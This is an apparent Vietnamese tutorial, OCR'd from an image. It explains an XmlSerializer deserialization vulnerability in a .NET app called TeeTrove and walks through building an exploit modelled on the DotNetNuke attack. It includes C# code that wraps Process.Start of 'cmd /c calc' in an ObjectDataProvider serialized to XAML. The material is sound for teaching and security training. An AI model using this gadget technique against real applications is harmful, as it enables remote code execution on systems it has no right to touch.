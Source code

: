 **Khám phá Lỗ hổng**
Lỗ hổng deserialization có thể xảy ra khi ứng dụng web sử dụng XML để chuyển đổi dữ liệu giữa các đối tượng mà không kiểm tra đúng các kiểu dữ liệu (types). Ví dụ dưới đây liên quan đến ứng dụng **TeeTrove**, trong đó lỗ hổng nằm trong phương thức `Import` trong `Controllers.TeeController`.

Trong tài liệu của Microsoft, không có cảnh báo rõ ràng về các vấn đề bảo mật khi sử dụng `XmlSerializer`, chỉ có một đoạn nói rằng không nên tuần tự hóa các kiểu dữ liệu không tin cậy. Tuy nhiên, trong mã nguồn của ứng dụng, kiểu dữ liệu mà ứng dụng mong đợi là `TeeTrove.Models.Tee`, và đây là kiểu dữ liệu mà người dùng có thể kiểm soát vì nó được gửi trong yêu cầu HTTP.

**Ví dụ**: Một ứng dụng web có thể bị tấn công nếu kẻ tấn công kiểm soát được kiểu dữ liệu mà `XmlSerializer` sử dụng. Lỗ hổng này có thể cho phép kẻ tấn công thực thi mã độc khi deserialization xảy ra, giống như vụ tấn công **DotNetNuke** trước đây, nơi tấn công dựa vào việc kiểm soát kiểu dữ liệu khi tuần tự hóa.

---

### **Phát triển Exploit**

**Xem xét Payload của DNN**
Trước khi tạo exploit, ta cần hiểu rõ cách hoạt động của payload trong trường hợp tương tự trong **DotNetNuke**. Payload trong đó chứa `ObjectDataProvider`, nhưng nó được bao bọc bởi thẻ `ExpandedWrapperOfXamlReaderObjectDataProvider`. Mặc dù ta có thể sử dụng `XmlSerializer` để tuần tự hóa dữ liệu, nhưng việc này không phải lúc nào cũng dễ dàng và đòi hỏi việc sử dụng thêm các lớp như `XamlReader` để thực thi mã.

**Tạo Payload**
Để tạo payload, ta cần phát triển một ứng dụng Console .NET để serial hóa `ObjectDataProvider` với `XamlWriter` thay vì sử dụng `XmlSerializer` trực tiếp. Dưới đây là mã ví dụ để serial hóa đối tượng `Process` và `ProcessStartInfo` để chạy lệnh `cmd /c calc` (mở máy tính).

```csharp
using System;
using System.Diagnostics;
using System.Windows.Data;
using System.Windows.Markup;

namespace TeeImportExploit
{
    internal class Program
    {
        static void Main(string[] args)
        {
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "C:\\Windows\\System32\\cmd.exe";
            psi.Arguments = "/c calc";
            Process p = new Process();
            p.StartInfo = psi;

            ObjectDataProvider odp = new ObjectDataProvider();
            odp.ObjectInstance = p;
            odp.MethodName = "Start";
            string xaml = XamlWriter.Save(odp);

            Console.WriteLine(xaml);  // Output XAML string
        }
    }
}
```
